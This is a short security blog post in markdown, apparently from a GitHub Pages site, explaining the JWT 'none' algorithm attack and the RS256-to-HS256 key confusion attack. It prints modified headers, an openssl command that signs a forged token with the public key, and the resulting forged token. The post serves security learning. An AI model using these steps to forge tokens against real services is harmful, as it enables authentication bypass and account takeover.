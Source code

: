 ```yaml
---
layout: post
title:  "Attacking JWT Authentication"
date:   2020-07-27 10:16:00
tags:   [JWT]
---
```


### Description
This post contains the ways to bypassing authentication with JWT exploit.
<br/>
<br/>


### JWT
Json Web Token is mainly used for web authentication and is a JSON-like data structure with cryptographic signatures. It consists of urlsafe base64 encoded data (characters, numbers, _ and -), separated by three parts with dots.

<br/>
<br/>


### JWT Structure
Json Web Token consists of three parts those are Header, Body and Signature.
```
# RS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
```
# HS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### None Type Attack
This is a vulnerability that usually occurs when the web or API trusts the JWT header. It can be used by changing the algorithm part of the JWT header to none. Attacker can changes body data with `None` alg.
```
Headers = {
  "typ" : "JWT",
  "alg" : "None"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### Key Confusion Attack
When I thought that the above example existed, JWT using the existing `RS256` normally checks the signature of the token, but JWT using the `HS256` uses the second argument `public_key` as the decryption key to change the algorithm when the public key is obtained. Internal data can be changed.
```
# Before
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# After
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# Body and Header data after urlsafe base64 encoding
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9
```
<br/>

Attacker can sign with public key after changing data.
```sh
# Checking hex raw.
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9" | openssl dgst -sha256 -mac HMAC -macopt hexkey:$(cat signing.pem | xxd -p | tr -d "\\n")
(stdin)= 38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62
```
```python
# Encoding sign value.
import base64, binascii

print base64.urlsafe_b64encode(binascii.a2b_hex('38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62')).replace('=','')

# return => OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
```
# JWT generated
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9.OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
<br/>
<br/>

